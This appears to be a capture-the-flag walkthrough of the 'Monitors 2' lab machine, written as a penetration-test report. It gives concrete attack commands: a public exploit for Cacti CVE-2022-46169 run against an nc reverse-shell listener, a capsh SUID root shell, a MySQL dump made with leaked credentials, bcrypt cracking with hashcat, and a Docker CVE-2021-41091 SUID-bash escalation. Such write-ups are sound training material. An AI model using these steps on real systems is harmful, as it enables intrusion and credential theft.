 # Monitors 2

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command “sudo nmap -sS --min-rate 10000 -p- monitors2.htb”

![Imagen1](images/Monitors2/Imagen1.png)

Once the open ports are known, It began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: “sudo nmap -sS -sV -O -oN moni-tors2ServiceVersions p22,80 -Pn monitors2.htb”

![Imagen2](images/Monitors2/Imagen2.png)

### Port Scan Results

![image](images/Monitors2/PortScan.PNG)

### HTTP Enumeration

The first thing done is to manually visit the web. Landing page is a login page where it is found that web server is running Cacti software version 1.2.22

![image](images/Monitors2/Imagen3.png)

With this information, I elaborate a dictionary with the default cacti directories (found on cacti github https://github.com/Cacti/cacti.git ) and run a directory scan using gobuster to find which of those pages I have access to.

![image](images/Monitors2/Imagen4.png)

Simultaneously software version vulnerabilities are search and a very interesting Un-authenticated RCE vulnerability is found (CVE 2022-46169).

## Initial Access – Unauthenticated RCE

**Vulnerability Explanation**: Cacti software version 1.2.22 is prone to an unauthenticated RCE vulnerability. The problem resides in “remote_agent.php” as it can be accessed without authen-tication and the way it checks if the remote host is authorized is by looking the entries at the “poller” table and verifying that there is a entry where the hostname is equal to the remote host-name (obtained from the IP address (previously retrieved by get_client_addr function) using gethostbyaddr function). It is possible to bypass this authentication method by using the HTTP header “Forwarded-For” and introducing the server IP address (“https://nvd.nist.gov/vuln/detail/CVE-2022-46169”). 

**Vulnerability Fix**: Update the software to version 1.2.23 or greater.

**Severity**: Critical

**Steps to reproduce the attack**: In order to reproduce the attack, the steps taken were the following:

  • Download exploit PoC from “https://github.com/devilgothies/CVE-2022-46169/blob/main/CVE-2022-46169.py”.
      
  •	Setup a listener in port 444 with “nc -lvp 444”
      
  •	Run the exploit using the command “python cactiRCE.py –url http://monitorstwo.htb --ip 10.10.14.9 --port 444”
      
![image](images/Monitors2/Imagen5.png)
    
  •	Receiving the shell in port 444.
      
![image](images/Monitors2/Imagen6.png)

**Proof of Concept Code**: no modifications were made to the original exploit PoC obtained from “https://github.com/devilgothies/CVE-2022-46169/blob/main/CVE-2022-46169.py”.

## Docker Privilege escalation & Docker Escape.

Once a shell as www-data is obtained, it is clear that there is a docker running. It is clear because of:

      •	Existence of the files “/.docker.env” and “/entrypoint.sh”

      •	Hostname is “50bca5e748b0”

      •	We find ourselves in a restricted environment with limited commands, no “ifcon-fig”, no “ping”.
 
![image](images/Monitors2/Imagen7.png)

To escalate privileges, find command will be used to search for SUID binaries in the container.

![image](images/Monitors2/Imagen8.png)

As shown in the previous picture, capsh is found. This binary is very useful at privilege escalation stage (https://gtfobins.github.io/gtfobins/capsh/) as it is possible to spawn a privilege bash using “./capsh --gid=0 --uid=0 --".

![image](images/Monitors2/Imagen9.png)

Now that root shell is obtained inside the container, the next step is to escape outside the container to the host.

For this step, it is vital the “/entrypoint.sh” file. 

![image](images/Monitors2/Imagen10.png)

As it is shown in the highlighted area, there are cleartext credentials for MySQL user “root”. 

Trying to use mysql tool inside the container is very slow so it is decided to dump the database and to inspecting manually on the attacking machine. For this, mysqldump tool is used “mysqldump -h db -u root -p --all-databases > /tmp/dumping.sql”.

![image](images/Monitors2/Imagen11.png)

To transfer the file to the attacking machine, I simply locate the file on the web server root, make it public changing its permissions to 777 and download it with “wget http://monitorstwo.htb/dumping.sql”.

Once on the attacking machine, inspecting the contents, password hashes are found for three different users: guest, admin and marcus.

![image](images/Monitors2/Imagen12.png)

![imagen](images/Monitors2/hashes.PNG)

“Admin” and “Marcus” hashes are “bcrypt $2*$, Blowfish” type of hash.

Next step is to try and crack these hashes. For this, hashcat will be used and specifi-cally “.\hashcat -m 3200 -a 0 hash.txt rockyou.txt”.

![image](images/Monitors2/Imagen13.png)

As seen in Illustration 13 recovered password for user “marcus” is “funkymonkey”. Using these credentials via ssh on the host lets us escape the docker environment and access as a regular user on the host “monitorstwo”.

![image](images/Monitors2/Imagen14.png)

Once inside the host, an interesting mail file is found “/var/mail/marcus”.

![image](images/Monitors2/Imagen15.png)

Mail contains a message from the Administrator to everybody where it talks about some vulnerabilities that need to be patched in the system. Checking software ver-sions, it is possible to confirm that Docker software version is vulnerable to “CVE-2021-41091”

## Privilege Escalation – CVE-2021-41091

**Vulnerability Explanation**: There is a vulnerability in Moby Docker Engine where the data directo-ry “/var/lib/docker” contains subdirectories with insufficiently restricted permissions. As a result, an unprivileged user on the host, can traverse directory contents and execute programs. If the UID of the user on the Host, collided with the file owner or group inside the container, the unpriv-ileged user of the host could discover, read, and modify those files (https://github.com/kube-tarian/sigrun/issues/100) (https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html). 
Taking into account the latter, if a binary is owned by root in the container, it will be owned also by root once accessed from outside the container. A copy of “/bin/bash” will be moved inside the container, SUID will be set to this copy by root, and then it will be accessed and executed from outside the container allowing user “marcus” to gain privileges and become root.

**Vulnerability Fix**: Update Moby to v20.10.9.

**Severity**: Medium

**Steps to reproduce the attack**:

• Identify the host path of files within the container. This can be done by extracting the “upperdir” mount option of the container mount point 
      ```
      sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab
      ```
      
![image](images/Monitors2/Imagen16.png)

• Check that from the host with a non-privileged user it is possible to interact with the container file system. A file “/tmp/checking” will be created inside the container and accessed from the host via “/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff/tmp/checking”

![image](images/Monitors2/Imagen17.png)

![image](images/Monitors2/Imagen18.png)

• Copy bash binary from the host to the container.

![image](images/Monitors2/Imagen19.png)

![image](images/Monitors2/Imagen20.png)

• Change the owner to root:root and set permissions to 4755 (SUID) to /tmp/bash from inside the container as root.

![image](images/Monitors2/Imagen21.png)

• Check permissions of the file from the host as “marcus”.

![image](images/Monitors2/Imagen22.png)

• Elevate privileges executing the binary with “-p” flag from outside the container.

![image](images/Monitors2/Imagen23.png)

### Post-Expoitation

**System Proof Screenshot**

![image](images/Monitors2/Imagen24.png)

![image](images/Monitors2/Imagen25.png)





      






